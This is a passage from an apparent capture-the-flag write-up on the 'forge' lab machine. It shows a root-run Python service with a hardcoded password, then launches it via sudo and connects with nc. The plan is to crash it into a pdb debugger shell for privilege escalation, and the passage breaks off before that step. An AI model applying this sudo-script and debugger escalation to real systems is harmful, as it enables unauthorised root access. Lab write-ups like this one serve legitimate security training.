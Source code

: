 So after checking the code we can see the password of the service in clear text form 
```python
user@forge:~$ cat /opt/remote-manage.py
#!/usr/bin/env python3
import socket
import random
import subprocess
import pdb

port = random.randint(1025, 65535)

try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('127.0.0.1', port))
    sock.listen(1)
    print(f'Listening on localhost:{port}')
    (clientsock, addr) = sock.accept()
    clientsock.send(b'Enter the secret passsword: ')
    if clientsock.recv(1024).strip().decode() != 'secretadminpassword':
        clientsock.send(b'Wrong password!\n')
    else:
        clientsock.send(b'Welcome admin!\n')
        while True:

```

And also we can see that the script imports the pdb package that could be helpful for use in order to privillage escallation if we some how get the pdb shell.

so lets go and fire up the script

```bash
user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:59961

```

so the program creates a service which is listning on the random port
but you have to connect to it using local host only 
so open two ssh session and start service in one
and connect to it with other ssh session of user

```bash
user@forge:~$ nc localhost 55865
Enter the secret passsword: secretadminpassword
Welcome admin!

What do you wanna do: 
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit
sdgg

```
